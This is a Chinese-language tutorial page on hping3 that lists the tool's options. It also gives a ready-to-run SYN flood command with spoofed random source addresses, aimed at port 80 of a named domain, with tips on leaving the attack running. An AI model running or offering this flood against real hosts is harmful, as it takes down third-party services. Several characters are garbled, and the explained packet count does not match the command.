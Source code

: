 # hping3
<warning style="color:red;">本页未被完善！请谨慎参考！</warning>  

Hping3 是一个命令行下使用的 TCP/IP 数据包组装/凾析工具，通常 web服务会用来做压力测试使用，也可以迚行 DOS 攻击的实验。同样 Hping 只能每次扫描一个目标。
kali常用攻击手段之Hping3攻击
> 引用: https://blog.csdn.net/qq_42877870/article/details/105027743

## 命令格式：
`hping3 host [options]`
## 参数释义
    usage: hping3 host [options]
      -h  --help      show this help
      -v  --version   show version
      -c  --count     packet count
      -i  --interval  wait (uX for X microseconds, for example -i u1000)
          --fast      alias for -i u10000 (10 packets for second)
          --faster    alias for -i u1000 (100 packets for second)
          --flood      sent packets as fast as possible. Don't show replies.
      -n  --numeric   numeric output
      -q  --quiet     quiet
      -I  --interface interface name (otherwise default routing interface)
      -V  --verbose   verbose mode
      -D  --debug     debugging info
      -z  --bind      bind ctrl+z to ttl           (default to dst port)
      -Z  --unbind    unbind ctrl+z
          --beep      beep for every matching packet received
    Mode
      default mode     TCP
      -0  --rawip      RAW IP mode
      -1  --icmp       ICMP mode
      -2  --udp        UDP mode
      -8  --scan       SCAN mode.
                       Example: hping --scan 1-30,70-90 -S www.target.host
      -9  --listen     listen mode
    IP
      -a  --spoof      spoof source address
      --rand-dest      random destionation address mode. see the man.
      --rand-source    random source address mode. see the man.
      -t  --ttl        ttl (default 64)
      -N  --id         id (default random)
      -W  --winid      use win* id byte ordering
      -r  --rel        relativize id field          (to estimate host traffic)
      -f  --frag       split packets in more frag.  (may pass weak acl)
      -x  --morefrag   set more fragments flag
      -y  --dontfrag   set don't fragment flag
      -g  --fragoff    set the fragment offset
      -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
      -o  --tos        type of service (default 0x00), try --tos help
      -G  --rroute     includes RECORD_ROUTE option and display the route buffer
      --lsrr           loose source routing and record route
      --ssrr           strict source routing and record route
      -H  --ipproto    set the IP protocol field, only in RAW IP mode
    ICMP
      -C  --icmptype   icmp type (default echo request)
      -K  --icmpcode   icmp code (default 0)
          --force-icmp send all icmp types (default send only supported types)
          --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
          --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
          --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
          --icmp-help  display help for others icmp options
    UDP/TCP
      -s  --baseport   base source port             (default random)
      -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
      -k  --keep       keep still source port
      -w  --win        winsize (default 64)
      -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
      -Q  --seqnum     shows only tcp sequence number
      -b  --badcksum   (try to) send packets with a bad IP checksum
                       many systems will fix the IP checksum sending the packet
                       so you'll get bad UDP/TCP checksum instead.
      -M  --setseq     set TCP sequence number
      -L  --setack     set TCP ack
      -F  --fin        set FIN flag
      -S  --syn        set SYN flag
      -R  --rst        set RST flag
      -P  --push       set PUSH flag
      -A  --ack        set ACK flag
      -U  --urg        set URG flag
      -X  --xmas       set X unused flag (0x40)
      -Y  --ymas       set Y unused flag (0x80)
      --tcpexitcode    use last tcp->th_flags as exit code
      --tcp-mss        enable the TCP MSS option with the given value
      --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
    Common
      -d  --data       data size                    (default is 0)
      -E  --file       data from file
      -e  --sign       add 'signature'
      -j  --dump       dump packets in hex
      -J  --print      dump printable characters
      -B  --safe       enable 'safe' protocol
      -u  --end        tell you when --file reached EOF and prevent rewind
      -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
      --tr-stop        Exit when receive the first not ICMP in traceroute mode
      --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
      --tr-no-rtt       Don't calculate/show RTT information in traceroute mode
    ARS packet description (new, unstable)
      --apd-send       Send the packet described with APD (see docs/APD.txt)

## 实例
`hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source rzgx.com`  

![img](/images/hping3/hping3-01.png)

-c 1000 = 发送的数据包的数量。  

-d 120 = 发送到目标机器的每个数据包的大小。单位是字节 -S = 只发送 SYN 数据包。  

-w 64 = TCP 窗口大小。  

-p 80 = 目的地端口(80 是 WEB 端口)。你在这里可以使用仸何端口。  

–flood = 尽可能快地发送数据包，丌需要考虑显示入站回复。洪水攻击模式  

> 要注意的是,输入命令回车后,Terminal终端并不会实时更新，是在后台持续ping的  
> 可以试用`top`命令查看机器的状态  
> 当你觉得打的差不多的时候，就可以按`Ctrl + C`暂停ping  